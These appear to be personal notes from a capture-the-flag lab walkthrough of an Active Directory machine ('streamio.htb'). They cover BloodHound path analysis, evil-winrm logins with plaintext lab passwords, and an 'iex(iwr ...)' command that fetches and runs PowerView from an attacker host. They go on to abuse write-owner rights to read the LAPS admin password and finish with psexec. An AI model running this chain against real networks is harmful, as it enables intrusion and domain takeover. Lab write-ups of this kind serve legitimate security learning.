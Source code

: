 `sudo neo4j console`

![[Pasted image 20250108203841.png]]

Download #Bloodhound from GitHub [[BloodHound]]

https://github.com/SpecterOps/BloodHound-Legacy/releases

Download the release compatible with attacker machine OS (probably linux x64)

Unzip the file. 

Execute with `./Bloodhound-linux-x64/Bloodhound`

Within BloodHound console..mark JDGodd and yoshihide and nikk37 as owned. 

Starting with `Shortest Path from Owned Principals`

Found something. 

JDGodd has write owner of core staff which can ReadLAPSPassword of the DC.

BloodHound abuse info:
![[Pasted image 20250108205243.png]]
Get #evilwinrm back 

`evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'`

![[Pasted image 20250108205628.png]]

Moving #powerview to remote machine. 

It's within the #powersploit recon folder.

`/PowerSploit/Recon/PowerView.ps1`

First load powersploit. 

`iex(iwr http://10.10.14.8/PowerView.ps1 -UseBasicParsing)`

![[Pasted image 20250108205950.png]]
Create password object for JDGodd

`$pwd = ConvertTo-SecureString 'JDg0ddls@d0p3cr3@tOr' -AsPlainText -Force`

![[Pasted image 20250108210145.png]]

`$cred = New-Object System.Management.Automation. PSCredential('streamio.htb\JDGodd' , $pwd)`

![[Pasted image 20250108210333.png]]

![[Pasted image 20250108210506.png]]

![[Pasted image 20250108210720.png]]

Here is LAPS password 

![[Pasted image 20250108210939.png]]
Use this password with #crackmapexec to verify pwn3d as admin 

![[Pasted image 20250108211029.png]]
Remote in with #psexec 

![[Pasted image 20250108211110.png]]
